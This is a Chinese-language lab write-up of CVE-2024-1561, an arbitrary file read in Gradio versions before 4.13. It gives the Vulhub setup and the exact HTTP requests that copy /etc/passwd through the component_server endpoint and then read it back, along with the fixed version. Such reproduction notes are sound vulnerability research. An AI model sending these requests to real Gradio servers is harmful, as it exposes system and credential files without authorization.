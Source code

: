 # Python Gradio 任意文件读取漏洞 CVE-2024-1561

## 漏洞描述

Gradio 是一个 Python 库，允许用户无需编写前端代码即可为机器学习模型快速构建 Web 界面。

在 Gradio 4.13 版本之前，`component_server` 接口允许攻击者调用 `Component` 类的任意方法。攻击者可以利用 `move_resource_to_block_cache` 方法，将服务器上的任意文件复制到临时目录，并进一步读取其内容，从而实现任意文件读取。

参考链接：

- [gradio-app/gradio#6884](https://github.com/gradio-app/gradio/pull/6884)
- https://nvd.nist.gov/vuln/detail/CVE-2024-1561
- https://github.com/advisories/GHSA-g9cj-cfpp-4g2x
- https://huntr.com/bounties/4acf584e-2fe8-490e-878d-2d9bf2698338

## 漏洞影响

```
Gradio < 4.13.0
```

## 环境搭建

Vulhub 执行如下命令启动一个由 Gradio 4.12.0 编写的应用：

```
docker compose up -d
```

环境启动后，默认未开启身份验证。你可以通过 `http://your-ip:7860` 访问该应用。

## 漏洞复现

首先，访问 `/config` 接口，获取一个组件的 `id` 字段，例如 `3`。

```
GET /config HTTP/1.1
Host: your-ip:7860
```

![](images/Python%20Gradio%20任意文件读取漏洞%20CVE-2024-1561/image-20250506111428271.png)

然后，利用 `move_resource_to_block_cache` 方法，将 `/etc/passwd` 文件写入临时目录，接口会返回临时文件路径。

```
POST /component_server HTTP/1.1
Host: your-ip:7860
Content-Type: application/json

{
  "component_id": "3",
  "data": "/etc/passwd",
  "fn_name": "move_resource_to_block_cache",
  "session_hash": "aaaaaaaaaaa"
}
```

![](images/Python%20Gradio%20任意文件读取漏洞%20CVE-2024-1561/image-20250506111530385.png)

最后，通过 `file` 接口拼接返回的路径，即可读取文件内容。

```
GET /file=/tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd HTTP/1.1
Host: your-ip:7860
```

![](images/Python%20Gradio%20任意文件读取漏洞%20CVE-2024-1561/image-20250506111615240.png)

如果操作成功，即可看到 `/etc/passwd` 的内容，证明漏洞存在。

## 漏洞修复

该漏洞在 `gradio==4.13.0` 中被修复。
